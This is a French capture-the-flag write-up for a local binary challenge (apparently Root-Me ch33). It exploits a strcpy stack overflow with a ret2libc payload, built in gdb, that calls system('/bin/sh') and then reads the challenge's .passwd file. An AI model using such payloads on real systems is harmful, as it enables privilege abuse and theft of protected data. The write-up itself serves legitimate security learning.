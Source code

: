 La faille se trouve ici :
```
strcpy (message, argv[1]);
```
Dans un premier temps, dans gdb, on unset LINES et COLUMNS afin d’être dans le même environnement que hors gdb et ne pas avoir de problème avec les adresses (C’est un bon réflexe à avoir)
```
gdb$ unset env LINES
gdb$ unset env COLUMNS
```
Ensuite, on peut effectuer un buffer overflow. La sauvegarde de EIP est écrasée après les 32 premiers bytes du buffer.
```
gdb$ r $(perl -e 'print "A"x32 . "\xef\xbe\xad\xde"')
Your message: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ?

Program received signal SIGSEGV, Segmentation fault.
Cannot access memory at address 0xdeadbeef
0xdeadbeef in ?? ()
```
Il suffit alors de faire un retour à la libc. Pour cela, deux informations sont nécessaires. La première, l’adresse de system ensuite l’adresse de la chaine "/bin/sh".

Pour system, on la trouve facilement avec gdb
```
gdb$ p system
$8 = {<text variable, no debug info>} 0xb7e69060 <system>
```
Et pour /bin/sh, on peut faire une recherche un peu bourrine pour voir si elle est déjà mappée en mémoire
```
gdb$ find __libc_start_main,+99999999,"/bin/sh"
0xb7f8ac58
warning: Unable to access target memory at 0xb7fd1160, halting search.
1 pattern found.
```
Parfait. On a donc nos informations. On va alors réécrire la sauvegarde de EIP avec l’adresse de system. L’adresse suivante dans la pile sera l’adresse de retour de system. Elle ne nous intéresse pas, mais on pourrait très bien prendre l’adresse de exit pour rendre l’exploit plus ... propre
```
gdb$ p exit
$9 = {<text variable, no debug info>} 0xb7e5cbe0 <exit>
```
Et enfin, le argv[1] de system qui est l’adresse de /bin/sh

Ce qui nous donne pour l’exploit :
```
gdb$ r $(perl -e 'print "A"x32 . "\x60\x90\xe6\xb7" . "\xe0\xcb\xe5\xb7" . "\x58\xac\xf8\xb7"')
Your message: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`?????X???
sh-4.2$
```
Hors gdb, la même chose :
```
app-systeme-ch33@challenge02:~$ /challenge/app-systeme/ch33/ch33 $(perl -e 'print "A"x32 . "\x60\x90\xe6\xb7" . "\xe0\xcb\xe5\xb7" . "\x58\xac\xf8\xb7"')
Your message: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`?????X???
sh-4.2$ cat .passwd
```
